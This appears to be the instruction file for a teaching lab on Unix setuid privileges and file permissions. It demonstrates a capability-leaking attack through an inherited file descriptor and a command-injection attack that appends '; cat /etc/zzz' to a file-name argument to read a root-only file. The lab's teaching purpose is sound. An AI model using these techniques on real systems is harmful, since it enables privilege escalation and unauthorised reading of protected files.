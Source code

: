 Instructions
===

Demo setuid (from SEED)
---

```
cp /bin/cat mycat
ls -l mycat
sudo chown root mycat
sudo chmod 4755 mycat
```


Demo multi-user permissions in bash
---

```
touch file_r.txt
sudo chown root file_r.txt 
sudo chmod 640 file_r.txt 
ls -ltr file_r.txt 
#-rw-r-----  1 root  staff  0 Feb  3 11:58 file_r.txt
echo "alice" >> file_r.txt 
#expected to fail
cat file_r.txt 
#expected to succeed 'cause the current user (tristartom) may be in the same group as root.
sudo su
#in the prompt
echo "bob" >> file_r.txt 
exit
# exit the prompt
cat file_r.txt 
```

Run capability-leaking attack
---

```
make clean
make attack-capability-leaking
#this will fail, which is expected.
./a.out
#fd is 3
#sh-3.2$ 
#in the above prompt, type the following:
echo yyy >&3
```

Toggle the protection on, in the setuid.c

Run seed-setuidlab-task8 attack （deprecated）
---

This attack doesn't work on latest Linux/MacOS which is protected.

```
make clean
make attack-seed-setuidlab-task8
touch file1.txt
echo xxx > file1.txt 
./a.out file1.txt 
touch /etc/zzz
sudo chmod 700 /etc/zzz
ls -ltr /etc/zzz
cat /etc/zzz
./a.out "file1.txt; cat /etc/zzz" 
```
